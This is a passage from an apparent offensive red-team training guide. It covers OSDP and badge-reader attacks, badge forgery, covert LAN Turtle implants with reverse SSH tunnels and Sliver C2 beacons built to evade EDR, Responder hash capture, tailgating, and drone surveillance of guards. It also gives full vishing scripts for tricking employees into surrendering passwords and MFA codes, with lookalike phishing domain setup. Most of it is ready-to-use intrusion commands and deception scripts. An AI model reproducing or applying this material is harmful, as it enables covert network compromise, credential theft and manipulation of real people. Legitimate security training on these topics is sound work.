    If OSDP: the credential capture via Wiegand tap is not viable.

OSDP ATTACK SURFACE (2027):

  Attack 1: OSDP Downgrade (if not enforced):
    Many buildings configure OSDP readers but forget to enforce Secure Channel.
    If Secure Channel is not enforced (OSDP "plain text mode"), the bus is as
    readable as Wiegand. Use a logic analyzer (Saleae Logic Pro 8, $479) on the
    RS-485 cable and decode OSDP frames.
    Tool: github.com/ezforever/osdp-tool (OSDP frame parser)
    Check: if you see card IDs in plaintext in the decoded output, SC is not enforced.

  Attack 2: OSDP Replay (if SC not enforced):
    Capture a valid OSDP card-present message: replay it: access granted.
    Same concept as Wiegand replay but at the OSDP protocol layer.

  Attack 3: Physical path attacks still work:
    OSDP secures the signal between reader and panel.
    It does NOT secure the card credential itself.
    If the card is a 125kHz HID Prox (common in legacy-hybrid buildings),
    the RFID clone still works: you present a clone to the reader,
    the reader generates a valid OSDP message: the panel grants access.
    The OSDP channel protects the wire, not the card.

  Attack 4: Panel-side attack:
    Access control panels (HID VertX EVO, Lenel OnGuard, Genetec) are network-connected.
    These are embedded Linux or Windows CE devices with management web interfaces.
    Default credentials are common. Network scan + credential stuffing is viable.
    If you have network access (via LAN Turtle), scanning for panel management interfaces
    (port 4050, 8443, 3001 depending on manufacturer) and accessing the panel directly
    is often faster than attacking the credential layer.

OSDP BEGINNER LAB PATH:
  Week 1: Read the SIA OSDP v2 specification (siaonline.org, free registration)
  Week 2: Install osdp-tool; capture OSDP traffic from a lab reader if available
  Week 3: Identify OSDP vs Wiegand in 5 different reader photos (image search + spec sheet research)
  Week 4: Scan a lab network for access control panel management interfaces
  Goal: understand the protocol before you encounter it in the field
```

---

### 1.7 BADGE VISUAL CLONING

```
WHY VISUAL CLONING MATTERS:
  A cloned RFID credential gets you past the electronic reader.
  A badge that LOOKS wrong gets you challenged by a human guard or employee.
  Both layers must be addressed.

INTELLIGENCE GATHERING:
  Source 1: Company website team photos and blog posts
    Employees often wear badges in photo ops. High-resolution photos reveal:
    badge dimensions, color scheme, logo placement, lanyard style,
    whether a photo ID is present, clip vs lanyard attachment.

  Source 2: LinkedIn and social media
    Conference photos, office culture posts, remote work background images.
    Employees visible with badges clipped to shirts or lanyards.

  Source 3: Google Street View
    If the building has a lobby visible through glass: reception badges may be visible.

  Source 4: Pretext visit as a member of the public
    Observe badges in person on employees entering or exiting.
    Note: size (most are CR80: standard credit card size), orientation (horizontal/vertical),
    color, any holographic overlay, the clip type.

BADGE FABRICATION:
  Design software: Canva or Adobe Illustrator
  Print: CR80 PVC card on an ID card printer (Magicard, Zebra: $300-800 new, $80+ used)
  Or: Inkjet print on matte photo paper laminated in CR80 laminate pouches ($0.50 each)
  For the RFID layer: insert the cloned T5577 card. The visual badge conceals it.

  Combine: visual clone + RFID clone in one card = full credential package.

VISITOR BADGE RESEARCH:
  Many organizations use a pre-printed visitor badge design.
  These often appear on company social media in photos of events and tours.
  Recreate the visitor badge design before a physical engagement:
  you may be issued one at reception; or you may present your own if unchallenged.

BODY CAMERA AND BADGE WEAR:
  Clip height: chest level (employees) vs. hip level (contractors)
  Lanyard color: often department-specific or role-specific
  Clip direction: photo facing forward (company standard) vs. tucked (covering photo)
  Observe when possible before replicating.
```

---

### 1.8 HARDWARE IMPLANTS: LAN TURTLE + EDR-EVASIVE CALLBACKS

#### LAN Turtle: Deployment and Configuration

```
WHAT IT IS:
  Hak5 LAN Turtle: a disguised USB Ethernet adapter containing a full Linux system.
  When plugged into a switch port or between a device and switch:
  it provides a covert management network, payload execution, and tunnel capability.

  LAN Turtle Gen 3 ($60): USB-A form factor
  Shark Jack ($100): standalone network attack tool (no USB: inline on Ethernet)

PHYSICAL DEPLOYMENT STRATEGY:

  Best placement locations:
    VoIP phone Ethernet port: every desk phone has an Ethernet jack that passthrough
                              to the workstation. Phone and workstation share the jack.
                              Unplug the phone's CAT5: insert LAN Turtle: plug LAN Turtle
                              passthrough to the phone. The port stays active.
                              PoE from the switch powers both the phone and the LAN Turtle.
    AV rack / conference room: projector or display controller on dedicated Ethernet.
                               Low-observation area. Long-duration access.
    Network closet patch panel: if accessible: direct connection to a specific VLAN.
    Printer Ethernet port: printers are rarely monitored. Sit on the network for months.

CONFIGURING LAN TURTLE FOR AUTOSSH REVERSE TUNNEL:
```

```bash
# On your VPS (your command-and-control server):
# Create a dedicated tunnel user (no shell):
sudo useradd -m -s /usr/sbin/nologin tunnel_user
sudo mkdir -p /home/tunnel_user/.ssh
sudo chmod 700 /home/tunnel_user/.ssh

# Generate SSH key pair on your operator machine:
ssh-keygen -t ed25519 -f ~/.ssh/lan_turtle_key -C "lt_implant_01"

# Authorize the public key on your VPS:
sudo bash -c "cat ~/.ssh/lan_turtle_key.pub >> /home/tunnel_user/.ssh/authorized_keys"
sudo chmod 600 /home/tunnel_user/.ssh/authorized_keys

# Edit sshd_config on VPS to allow tunnel forwarding:
# In /etc/ssh/sshd_config add:
# AllowTcpForwarding yes
# GatewayPorts yes
sudo systemctl restart sshd

# On LAN Turtle: set up AutoSSH module in admin interface
# Or manually in /etc/config/autossh:
# SSH_ARGS: -i /root/.ssh/lan_turtle_key -R 2222:localhost:22
#           -N -o StrictHostKeyChecking=no -o ServerAliveInterval=30
# SSH_HOST: YOUR_VPS_IP
# SSH_USER: tunnel_user
# SSH_PORT: 22

# Access from operator machine through the tunnel:
ssh -p 2222 root@YOUR_VPS_IP
# You are now inside the LAN Turtle shell, which is inside the target network
```

#### EDR-Evasive Callback Design

```
THE PROBLEM WITH AUTOSSH IN 2027:

  AutoSSH tunnels have a distinctive behavioral fingerprint:
    - Persistent outbound TCP connection to a non-standard port (22 to an external IP)
    - Regular keep-alive packets at fixed intervals (ServerAliveInterval)
    - Connection from an endpoint that "should be" a VoIP phone or printer
    - Agent-based EDR (CrowdStrike Falcon, SentinelOne, Microsoft Defender for Endpoint)
      flags unusual outbound connections from network devices that do not have agents

  What detects it:
    Network EDR / NDR (Darktrace, Vectra AI): behavioral analysis of all traffic
    Next-gen firewall with TLS inspection: decrypts SSH and sees the tunnel
    SIEM correlation rule: new outbound SSH from a device that has never made SSH before

EVASIVE CALLBACK ARCHITECTURE FOR 2027:

  Option A: HTTPS Beacon over CDN Domain Fronting
    Use Sliver or Havoc C2 with an HTTPS listener.
    Your C2 domain is fronted by Cloudflare or AWS CloudFront:
      The outer TLS SNI field shows: cdn.cloudflare.com
      The inner HTTP Host header shows: your-c2.yourdomain.com
      The CDN forwards the request to your C2 server.
    What the target's network sees: legitimate HTTPS traffic to Cloudflare IP ranges.
    What the target's firewall blocks: nothing (Cloudflare is not blockable).

  Option B: DNS-over-HTTPS (DoH) C2 Channel
    Use a C2 framework that tunnels implant comms over DoH.
    Requests appear as HTTPS traffic to 1.1.1.1 (Cloudflare) or 8.8.8.8 (Google).
    Extremely difficult to block without breaking all encrypted DNS on the network.
    Tools: PoshC2 DNS C2 module; custom DNS-over-HTTPS implementation.

  Option C: Reduced Beacon Interval + Jitter
    Instead of AutoSSH keep-alive every 30 seconds (very regular = detectable):
    Configure Sliver beacon: sleep_interval 1800 + sleep_jitter 50%
    Beacon checks in once every 15-45 minutes (randomized).
    Behavioral detection requires longer observation window.
    Combine with: HTTPS CDN fronting for full stealth.

SLIVER C2 LISTENER CONFIGURATION FOR IMPLANT:
```

```bash
# On your Sliver C2 server:
# Start an mTLS listener (mutual TLS: both sides authenticate):
sliver > mtls --lhost YOUR_C2_IP --lport 8888

# Generate an implant for deployment on the LAN Turtle:
# LAN Turtle runs OpenWrt (ARM Linux): compile accordingly
sliver > generate --mtls YOUR_C2_IP:8888 \
                  --os linux \
                  --arch arm64 \
                  --format exe \
                  --sleep 1800 \
                  --jitter 50 \
                  --save /tmp/lt_beacon

# Transfer beacon to LAN Turtle:
scp /tmp/lt_beacon root@LAN_TURTLE_IP:/usr/local/bin/beacon

# Set it to run as a cron job on LAN Turtle (not AutoSSH):
# Add to /etc/crontabs/root:
# @reboot sleep 120 && /usr/local/bin/beacon &
# */30 * * * * pgrep beacon || /usr/local/bin/beacon &

# On operator machine: connect when beacon checks in:
sliver > use [SESSION-UUID]
sliver (implant) > ifconfig       # what network are we on?
sliver (implant) > netstat        # what is connected to this host?
sliver (implant) > execute nmap -sn 10.X.X.0/24   # internal subnet discovery
```

#### Responder: Credential Capture from the Implant

```bash
# Run Responder through the Sliver session or directly on LAN Turtle:
# LAN Turtle supports Responder natively via module manager.

# Manual Responder setup on LAN Turtle shell:
pip3 install impacket --break-system-packages
git clone https://github.com/lgandx/Responder
cd Responder

# Identify the internal interface:
ip link show

# Run Responder (poisoning LLMNR, NBT-NS, mDNS):
python3 Responder.py -I br-lan -wPv
# -w: start WPAD rogue server (captures proxy auth)
# -P: force NTLM auth on WPAD
# -v: verbose output

# Hashes accumulate in Responder/logs/
# NTLMv2-SSP hashes are crackable with hashcat:
hashcat -m 5600 hashes.txt /opt/wordlists/rockyou.txt \
        --rules-file best64.rule -O
```

---

### 1.9 TAILGATING AND PRETEXT ENTRY

```
THE PSYCHOLOGY:
  Tailgating works because humans have a biological aversion to confrontation.
  Challenging someone who "looks like they belong" risks:
    - Embarrassing yourself if they are legitimate
    - A social conflict with a colleague or supervisor
    - Appearing unhelpful or paranoid
  Most people resolve this discomfort by holding the door.

WHAT "LOOKING LIKE YOU BELONG" REQUIRES:

  Clothing matching the environment:
    Office building: business casual or business professional + badge
    Data center: vendor polo shirt + tool bag + badge
    Hospital: scrubs + badge + stethoscope or tablet
    Industrial/utility: high-vis vest + hard hat + clipboard
  
  Props:
    Hands full (boxes, coffee tray, laptop bag): triggers the "let me get the door" reflex
    Clipboard with a work order: signals purpose and authorization
    Tool bag: signals a technical vendor role
    
  Body language:
    Move with purpose: not looking for exits, not scanning for cameras
    Light conversation while walking: "Crazy Monday, right?" builds instant rapport
    Appear familiar with the space: do not stop to look at floor directories

VENDOR PRETEXT: The Complete Setup:
  Legend: "Michael Torres, IT Support Engineer, [REAL LOCAL IT VENDOR]"
  Research the vendor: LinkedIn, website, service area
  Print business cards: Vistaprint ($15 for 100 cards) with their branding
  Work order: Microsoft Word template with their letterhead + a vague task description
    ("Quarterly network infrastructure review: conference room AV systems, floors 2-4")
  Badge: visual clone of visitor badge design (Section 1.7)
  RFID: cloned credential on a T5577 card (Section 1.6)

ENTRY SEQUENCE:
  1. Arrive at reception during a busy period (10-11am, 2-3pm)
  2. State the pretext with confidence (not arrogance)
     "Good morning: I'm [NAME] from [VENDOR] here for the quarterly AV check.
      I believe [IT MANAGER NAME] has a ticket open for this.
      Would you be able to ring him, or is [IT HELPDESK NAME] available?"
  3. Name-drop researched contacts: creates verification burden
  4. If visitor badge is issued: accept and wear it. If not: wear your pre-built version.
  5. Once on the floor: move with purpose. Do not ask for directions.
     If lost: "I was just up here last quarter: I think it is this way?"

TAILGATE BEHIND AN EMPLOYEE:
  Best window: immediately behind a group of 3+ employees
  Position: in the group, not trailing behind
  Speed: match their walking pace exactly
  Badge: have it visible and oriented correctly
  Conversation: optionally say "Thank you" as you pass through with them

ABORT SIGNALS:
  Security desk asks for a photo ID you do not have:
    "Of course: I left my main wallet in the car. Give me two minutes and I will grab it."
    Exit. Do not return.
  
  Someone asks who you are meeting with and calls to verify:
    Do not attempt to stop the call.
    "Absolutely, I will wait right here."
    If the cover story collapses: "There may have been a mix-up on the scheduling. 
    Let me call my office and sort this out." Exit.
  
  Rule: the exit always looks voluntary. A voluntary exit is not an incident.
  A caught-and-confronted situation is an incident that can end the engagement.
```

---

### 1.10 DRONE RECON: FULL CURRICULUM (OPTICAL + THERMAL)

#### Why Drone Recon Matters

```
Ground-level recon has limits:
  - You cannot see rooftop camera placements from the street
  - Building perimeter mapping requires walking the entire exterior (conspicuous)
  - Fence perimeter, guard post positions, and patrol routes are invisible from the street

Drone recon solves these problems:
  - Overhead view reveals full building layout in minutes
  - Camera positions, angles, and coverage gaps visible from above
  - Loading dock schedules observable from safe distance
  - Roof access points (hatches, HVAC access, skylights)
  - Parking lot: identifying high-value employee vehicles for later OSINT
```

#### Drone Selection for Physical Red Team

```
REQUIREMENTS:
  Sub-250g aircraft: in most jurisdictions (US FAA Part 107, UK CAA, EU A1/A2),
  drones under 250g have significantly reduced regulatory requirements.
  Under 250g you can fly in more locations without registration or a license.
  This is the physical red team target weight class.

RECOMMENDED PLATFORMS:

  Primary: DJI Mini 4 Pro ($759)
    249g. 4K/60fps. 34-minute flight time. 20km video transmission.
    Omnidirectional obstacle sensing (critical for urban environments).
    Subject tracking: auto-follows a target for personnel observation.
    Foldable: fits in a jacket pocket.

  Budget option: DJI Mini 3 ($299)
    249g. 4K/30fps. 38-minute flight time. Excellent image quality.
    No obstacle sensing (fly more carefully).
    Best value for red team ISR.

  THERMAL: DJI Mini 4 Pro + Zenmuse XT2 or DJI Mavic 3 Enterprise Thermal ($4,500+):
    Thermal + visual dual camera. See body heat signatures through windows at night.
    Use cases:
      - Confirm whether a room is occupied before attempting entry
      - Locate guard patrol routes in darkness
      - Identify heat signatures from server rooms on rooftops (warm air exhaust)
      - Find exterior power infrastructure (warm conduit = active power run)
    Trade-off: over 250g, requires registration and in some jurisdictions a Part 107 cert.

  DO NOT USE consumer toy drones (<$100): poor camera quality, short range,
  unreliable connection, impossible to use for professional ISR.
```

#### Pre-Flight OSINT and Planning

```
BEFORE YOU FLY:

  Step 1: Satellite and aerial baseline:
    Google Earth Pro (free): historical imagery lets you see building state over time
    Google Maps satellite view: current state
    Bing Maps Birds Eye: different angle, often better detail for roof layouts
    Review: building footprint, parking lot layout, visible camera housing locations,
            loading dock positions, fence/gate configuration

  Step 2: Airspace check (mandatory):
    FAA B4UFLY app (US): shows controlled airspace, TFRs, no-fly zones
    Aloft ATC: real-time airspace overlay
    DJI Fly app: built-in airspace warning (also enforces geofencing)

    CHECK BEFORE EVERY FLIGHT. Flying in controlled airspace without authorization
    is a federal violation (US: 49 USC 46307; up to $27,500 civil penalty).

  Step 3: Counter-drone awareness:
    High-security targets may deploy counter-drone systems:
    RF detection (DroneShield, Dedrone): detects the 2.4GHz/5.8GHz control signal
    Action: use maximum distance (200m+), brief flight, different ingress/egress each time
    Geofencing enforcement: DJI enforces no-fly zones via GPS + firmware
```

#### Optical Flight Protocol

```
FLIGHT PROTOCOL:
  1. Pre-flight checklist:
     Battery: 100%  |  Firmware: updated  |  Memory card: empty  |  Airspace: clear
     Weather: winds under 20mph, no rain, visibility > 3 miles

  2. Take-off from designated point: hover at 10m for 30 seconds to confirm GPS lock

  3. Primary flight path: Perimeter first
     Phase A: 80m altitude, 150m distance: capture all four exterior faces
     Phase B: 60m altitude, 80m distance: camera angles, badge reader locations
     Phase C: 50m altitude, directly above: roof survey (hatches, HVAC, cabling)

  4. Area survey:
     Parking lot: vehicle count establishes number of employees present
     High-end vehicles clustered in one area: executive parking
     Delivery zone: timing for tailgate windows
     Emergency exits: where employees take breaks
```

#### Thermal Operations (Night / Low-Light)

```
THERMAL RECON USE CASES:

  Guard route mapping:
    Thermal shows heat signatures through glass and thin walls
    Fly at 60m altitude, 100m distance: observe guard routes from above
    Body heat signatures from patrols are distinct on thermal: document timing

  Occupancy confirmation:
    Before physical entry: fly thermal: confirm the area you are entering is empty
    Saves the operation: a surprise occupied room is a compromised entry

  Server room identification:
    Data center and server room HVAC exhausts hot air: visible as thermal bloom
    on rooftops and exterior vents: helps identify the target zone in large buildings

  External power infrastructure:
    Active electrical conduit runs warm: visible on thermal
    Helps identify where the building's power distribution enters: relevant for
    fail-safe lock attacks (cutting power to the right circuit)

THERMAL CAMERA OPTIONS:
  FLIR Lepton 3.5 breakout module ($200): low-res but lightweight; attaches to Raspberry Pi
  DJI Zenmuse XT2 (for Matrice series): professional, $2,500+, 640x512 thermal resolution
  FLIR One Pro (smartphone attachment, $400): 160x120 thermal on your phone: usable for
  ground-level pre-entry occupancy checks

THERMAL DELIVERABLES:
  Side-by-side images: thermal + optical for each finding
  Annotate: heat signatures with descriptions (person, server room exhaust, active conduit)
  Time-stamp: all thermal images (route timing, occupancy windows)
```

#### ISR Annotation and Deliverable

```
POST-FLIGHT ANNOTATION:
  Software: DJI Fly exports footage: import stills into Greenshot or GIMP

  COLOR-CODED MARKERS:
    RED:    cameras (position, angle of coverage)
    ORANGE: access points (doors, gates, loading docks)
    YELLOW: guard positions observed
    BLUE:   network/comms infrastructure on roof
    GREEN:  entry points with low camera coverage
    WHITE:  dead zones in camera coverage
    PURPLE: thermal findings (heat signatures, occupied rooms)

  DELIVERABLE:
    1. Aerial overview: full perimeter with all markers
    2. Close-up: each facade with markers
    3. Roof survey: annotated
    4. Camera coverage map: estimated 90-degree FOV cones from each camera
    5. Thermal findings: side-by-side thermal/optical where applicable
    6. Gap analysis: identified dead zones and entry windows in writing
```

---

## SECTION 2: SOCIAL ENGINEERING: THE HUMAN ATTACK SURFACE

> Physical Red Team gets you in the building. Social Engineering gets you trusted once you are there, and gets insiders to hand you what you cannot steal. This section is a complete methodology: not just scripts.

<div align="center">
<table><tr><td>



</td></tr></table>
</div>

---

### 2.1 THE PSYCHOLOGY FRAMEWORK: SIX PRINCIPLES OF INFLUENCE

Before you construct any pretext, understand WHY people comply. Robert Cialdini's six principles are the foundation of every effective social engineering attack. Learn these as a framework, not a script. If you understand the principle, you can construct any pretext from scratch.

```
PRINCIPLE 1: AUTHORITY
  People defer to perceived authority figures. Lab coats, uniforms, titles,
  and confident behavior all signal authority.

  SE application:
    - Caller ID spoofed to IT Help Desk number
    - Uniform or vendor vest with a known company name
    - Title: "IT Security team", "Corporate Audit", "Executive Support"
    - Citing a manager name (found on LinkedIn) establishes chain-of-command legitimacy

  Red flag counter: real authority figures can be verified. Your pretext must survive
  verification or you need to prevent it with urgency or off-hours contact.

PRINCIPLE 2: URGENCY / SCARCITY
  Time pressure reduces critical thinking. People under pressure skip verification steps.

  SE application:
    - "Your account is actively being compromised right now"
    - "The CEO needs this in the next 10 minutes"
    - "If we do not resolve this today, your access will be suspended"
    - "The board presentation starts in 20 minutes and the files are in SharePoint"

  Combined with authority: nearly irresistible. The target is in a threat state;
  their brain shifts from deliberation to action mode.

PRINCIPLE 3: SOCIAL PROOF
  People follow what others do, especially in uncertain situations.

  SE application:
    - "Everyone in your department already completed the account verification"
    - "I have already spoken with [colleague name from LinkedIn]; they confirmed the same issue"
    - "We have already reset accounts for the Finance team: yours is next"
    - "The rest of your floor is coming down for the badge verification today"

PRINCIPLE 4: RECIPROCITY
  People feel obligated to return favors. If you give something, they feel they owe you.

  SE application:
    - Help desk scenario: "I helped you avoid a security incident; I just need you to
      verify a few things so I can complete the protection on your account"
    - Lead with a solution: "I have already fixed the issue on our end: I just need
      you to confirm one detail so I can close the ticket"
    - Deliver something useful first (resolve a minor issue) then make the ask

PRINCIPLE 5: LIKING
  People comply with people they like, or who are like them.

  SE application:
    - Match their communication style (formal vs. casual)
    - Reference shared context: "I know you are in the Denver office: we support
      that location specifically"
    - Use the target name naturally: builds rapport fast
    - Mirror their pace: match speed and tone of their speech
    - Reference current events at the company: layoffs, product launches, restructuring
      (shows you are "one of them")

PRINCIPLE 6: COMMITMENT / CONSISTENCY
  Once someone agrees to a small thing, they feel pressure to be consistent with that.

  SE application (yes-ladder technique):
    "Can you confirm you ARE [NAME] on the [DEPARTMENT] team?" --> yes
    "And your account IS the one showing the alert?" --> yes
    "So you DO want me to secure it?" --> yes
    "Then I will need you to verify your current credentials so we can proceed."
    Each yes commits them further. Refusal at step 4 would be inconsistent.

COMBINING PRINCIPLES:
  Authority + Urgency: "IT Security + your account is compromised right now" --> overwhelming
  Liking + Social Proof: "You know [colleague], who already did this" --> very effective
  Reciprocity + Commitment: "I have already done X for you; you agreed to Y; just confirm Z"
```

---

### 2.2 ELICITATION TECHNIQUES

```
WHAT ELICITATION IS:
  Extracting information from someone during a natural conversation without them
  realizing they provided intelligence. No scripts. No demands.
  The target walks away thinking they had a pleasant chat.

TECHNIQUE 1: FLATTERY + DISBELIEF (BRACKETING)
  State something slightly wrong or undervalue their knowledge.
  People correct inaccuracies about their own domain.

  Example:
    "I heard your security team only has about 5 people."
    Target: "Actually it is 23, and we cover three sites."
    You: "So you must handle all the access control management centrally?"
    Target: "Yeah, it is all on the Genetec system now..."
    
    You learned: team size, camera/access control vendor, when they migrated.
    None of those were asked directly.

TECHNIQUE 2: MUTUAL SHARING (QUID PRO QUO FRAMING)
  Share information first (even if generic), which prompts them to share in return.

  Example:
    "We have been working with a lot of clients moving to SEOS cards."
    Target: "Yeah we are in the middle of that migration now, about 40% done.
    The IT closets on floors 3 and 4 still have the old readers."
    
    You learned: which floors have legacy (clonable) access control.

TECHNIQUE 3: NAIVE QUESTIONING
  Pretend to know less than you do. Experts love to explain.

  Example:
    "I am still learning how access control systems work: what does the badge
    reader actually communicate back to?"
    Target: "Well, it sends the Wiegand signal to the panel, which checks against..."

TECHNIQUE 4: FALSE STATEMENTS AS BAIT
  State something deliberately wrong and wait for the correction.

  Example:
    "Your system must be all managed from the cloud now, right?"
    Target: "No actually: we still have an on-prem controller in the basement.
    IT keeps saying they will migrate it but..."
    
    You learned: on-premises access control, IT low priority for it,
    controller in the basement.

TECHNIQUE 5: TOPIC SEEDING (INTEREST EXPANSION)
  Introduce a topic and let them take it wherever it goes.

  Example:
    Mention: "I have been dealing with a lot of badge cloning incidents lately."
    Target security professional: "Yeah we had an incident last year where:
    actually I should not say too much. But we changed our procedures after it."
    You: "Oh interesting, we saw something similar at another client."
    Target: "Yeah, they still have not upgraded the readers on the west entrance..."

DELIVERY PRINCIPLES:
  - Never take notes in front of the target. Memorize. Write notes immediately after.
  - Let silences breathe. People fill silence. Do not fill it for them.
  - One piece of information at a time. Do not push for more immediately after a disclosure.
  - Close the loop: end the conversation naturally. Do not leave them wondering
    why they felt slightly interrogated.

OSINT TOOLS FOR SE TARGET PROFILING (use before elicitation):
  Maltego Community ($0): relationship mapping between people, domains, emails
  SpiderFoot ($0, open-source): automated OSINT across 200+ data sources
  Sherlock ($0, GitHub): username search across 300+ platforms simultaneously
    Usage: python3 sherlock.py target_username
  hunter.io ($0 basic): email format discovery and verification
  LinkedIn Sales Navigator: deep company org chart research
  Spokeo / BeenVerified: phone number and personal address lookup (US)
  OSINT Framework (osintframework.com): categorized OSINT resource index
```

---

### 2.3 VISHING: VOICE PHISHING (FULL SCRIPTS + OBJECTION HANDLING)

#### Pre-Call Intelligence

```
OSINT BEFORE EVERY CALL:
  1. Target name: LinkedIn, company directory, press releases
  2. Manager name and email format: LinkedIn
  3. IT helpdesk number: company website (you might call FROM this number)
  4. Internal terminology: job postings ("we use ServiceNow", "our Salesforce instance")
  5. Recent company events: earnings calls, layoffs, product launches, incidents
  6. Email format: hunter.io (shows verified email formats and real addresses)
  7. IT vendor stack: LinkedIn job postings for "IT Manager" or "Systems Administrator"

VOIP INFRASTRUCTURE:
  MySudo (iOS/Android): privacy-focused VOIP, custom numbers
  Twilio (developer API): programmatic, spoof any caller ID number
  SpoofCard, SpoofTel: dedicated caller ID spoofing services ($0.10-0.25/min)

  Spoof to show: IT Help Desk number, HR department, a known vendor support line
  Background noise: play office ambient audio (YouTube: "office background noise 8 hours")
  Call time: business hours; avoid Mondays 9-10am (high staff awareness) and Fridays
```

#### Pretext Scripts

```
PRETEXT 1: IT HELPDESK --> USER (credential extraction)

Script:
  "Hi, is this [NAME]? Great. This is [JAMES COLE] from the IT Security team.
  We are calling because our monitoring system flagged unusual login activity on
  your account from a location that does not match your usual sign-in pattern.

  Can you confirm your employee ID for me? I want to make sure I have the right account."
  [Pause: they give employee ID or last 4 digits]

  "Perfect. I am looking at the alert now. We have been resetting credentials for
  all affected accounts on a rolling basis today. I need you to verify your
  current password so I can confirm it matches what is in our rotation system:
  otherwise your reset will not complete cleanly."

OBJECTION HANDLING: THREE-LAYER STRUCTURE

  Layer 1: Acknowledge + Reframe
    Target says: "I am not sure I should give my password over the phone."
    Response: "That is completely the right instinct: and I completely understand.
    That policy exists to protect you against people who are NOT IT Security.
    I am calling FROM the IT Security line right now [caller ID shows the correct number].
    The reason we are doing phone verification today is our email system itself may be
    compromised: so we cannot use email for the reset. The phone is the secure channel."

  Layer 2: Social Proof + Urgency
    Target says: "I really should call IT back directly to verify."
    Response: "Of course you can: and I would encourage that normally.
    The issue is your account has an active session right now from [city].
    I have a 5-minute window to complete this reset before the system auto-locks
    and the lockout requires an in-person visit to IT. I have 3 other people
    after you this afternoon: I am genuinely trying to save you that trip."

  Layer 3: Lower the Ask
    Target still will not comply:
    Response: "No problem at all. Let me take a different path.
    I do not need the full password. Just give me the last two digits of your
    employee ID and I can verify from my side and trigger the reset without
    needing your credentials. That way you have not shared anything sensitive."
    [Any small compliance keeps the engagement alive]

MFA BYPASS VARIANT:
  "Instead of the password, let me send a verification code to your phone.
  What is the number we have on file for you? I will send the code and you
  just read it back to me."
  [They read you the OTP: you use it to log in to their account in real time]
  [This is the real-time phishing / MFA bypass technique: pair with Evilginx3 for
  automated capture at scale]
```

```
PRETEXT 2: USER --> IT HELPDESK (reset to attacker-controlled channel)

Script:
  "Hi, this is [SARAH JENKINS] from [MARKETING: department from LinkedIn].
  I am locked out of my account: I got a new laptop this morning and
  it is not accepting my password. I have a presentation in 40 minutes
  and my files are in SharePoint. Can you do an emergency reset?

  [If asked for employee ID:]
  I do not have my card right in front of me: it is on my desk upstairs.
  Can you look me up by email? It is [target email address]."

  [When reset is offered:]
  "Can you send the reset link to my phone number instead of email?
  My work email is the one locked. My phone is [burner number you control]."
```

```
PRETEXT 3: VENDOR --> EXECUTIVE ASSISTANT (facility intelligence)

Script:
  "Hi, this is [MICHAEL TORRES] from [REAL VENDOR found in job postings].
  I am calling to confirm the meeting this Thursday with [EXECUTIVE NAME].
  Our team lead is flying in from [CITY] and I want to make sure we have
  visitor badges arranged and the right conference room.

  Can you confirm the floor number for the executive suite?
  And do we check in at reception on the ground floor or is there a
  separate visitor entrance?
  What ID format do you take for the visitor log?
  Should we bring our vendor credentials or is a government ID fine?"

What you extract: floor number, visitor badge process, reception workflow, ID requirements.
```

#### Vishing Anti-Detection

```
HANDLING SKEPTICAL TARGETS:

  Sign of suspicion: "How do I know you are really from IT?"

  Response A: Transfer burden:
    "I completely understand: I can have my manager [FULL NAME] call you back
    from the helpdesk main line. He is available in about 20 minutes."
    (Most people do not want to wait 20 minutes and will comply now.)

  Response B: Email verification:
    "Let me send you an email from my official account right now while we are on the call."
    (Use your pretext email domain. They see an email arrive. Trust established.)

  Response C: Redirect to a lower ask:
    "No problem at all. I do not need the password: I just need to verify the
    last four digits of your employee ID and I can complete the reset on my end."

ABORT CONDITION:
  Target says: "I am going to call IT directly to verify this."
  Response: "Of course: please do, and ask for [researched name] on the security team.
  I will close the ticket from my end and you can re-open it when you have verified.
  Have a good day." [End call.]
  
  Forcing the conversation continues = suspicious behavior.
  A clean exit = they remember an overly cautious IT interaction, not a vishing attempt.

CALL TIMING:
  Best call windows:
    Tuesday to Thursday: 10am-12pm and 2pm-4pm
    Avoid: Monday morning (low helpfulness), Friday afternoon (escape mode),
    Avoid: Month-end close (Finance under pressure: less patient)
  
  Optimal target personas:
    Junior employees: highest compliance (want to solve problems, less security training)
    Administrative assistants: information-rich, authority-responsive
    IT helpdesk staff: the best target for pretext #2 (they WANT to be helpful)
```

---

### 2.4 EMAIL PHISHING CONSTRUCTION

```
NOTE: This section covers targeted email phishing (spear phishing).
AiTM phishing (Evilginx3 + GoPhish) is covered in Phase 4F.
This section covers the email construction and delivery layer.
```

#### Domain Setup for Phishing

```
DOMAIN SELECTION STRATEGY:
  Typosquatting: company-name.com --> company-narne.com (rn looks like m)
  Lookalike: microsoft.com --> micros0ft.com, microsofts-security.com
  Addition: companyname-it.com, companyname-security.com, companyname-hr.com

  Register via Namecheap or Porkbun ($8-12/year). Use Whois privacy.

EMAIL INFRASTRUCTURE (so your email is not flagged as spam):
  1. SPF record: TXT "v=spf1 a mx include:zoho.com ~all"
  2. DKIM: your email provider generates keys; add TXT record to DNS
  3. DMARC: TXT "_dmarc.[yourdomain].com" "v=DMARC1; p=none; rua=mailto:dmarc@..."
  4. Age the domain: 14-30 days old before sending campaign
  5. Check reputation: mxtoolbox.com/blacklists + mail-tester.com (score 8+/10)
```

#### Email Body Construction

```
STRUCTURE:
  Line 1: Context (who you are, why you are emailing)
  Line 2: The "problem" (urgency hook)
  Line 3: The solution (the call to action)
  Line 4: Credibility element (reference to known person, ticket number, policy)
  Line 5: Urgency deadline
  Call to action: [button] or [link] or [attachment]

HIGH-OPEN-RATE SUBJECTS:
  Action required:
    "Action Required: Your account security verification"
